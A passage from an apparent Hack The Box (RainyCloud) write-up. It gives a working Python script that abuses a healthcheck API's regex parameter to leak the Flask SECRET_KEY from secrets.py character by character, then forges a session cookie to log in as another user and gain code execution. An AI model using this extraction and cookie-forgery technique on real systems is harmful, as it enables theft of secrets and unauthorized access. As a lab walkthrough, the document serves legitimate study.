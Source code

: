 So now, we would need to create some form of script to brute force out the characters of the SECRET_KEY, because that's needed to decode the cookie and (maybe)_ get a password.

### Brute Force SECRET\_KEY

We can create a really quick python script the brute forcing to get the key.

```python
import string
import requests
import json

chars = string.printable
cookies = {'session': 'eyJ1c2VybmFtZSI6ImdhcnkifQ.Y28liQ.M3OPi3eJ7xcaUmaC0eENYqtHnu4'}

s = requests.Session()
pattern = ""

while True:
    for c in chars:
        try:
            rsp = s.post('http://dev.rainycloud.htb:3333/api/healthcheck', {
                'file': '/var/www/rainycloud/secrets.py',
                'type': 'custom',
                'pattern': "^SECRET_KEY = '" + pattern + c + ".*"
            }, cookies=cookies)
            if json.loads(rsp.content)['result']:
                pattern += c
                print(pattern)
                break
            else:
               pass
               # print(c)
        except Exception:
            print(rsp.content)
```

This would generate the SECRET\_KEY accordingly.

<figure><img src="../../../.gitbook/assets/image (2465).png" alt=""><figcaption></figcaption></figure>

Now, we can actually generate another cookie to login as jack and gain RCE as jack.

<figure><img src="../../../.gitbook/assets/image (1675).png" alt=""><figcaption></figcaption></figure>
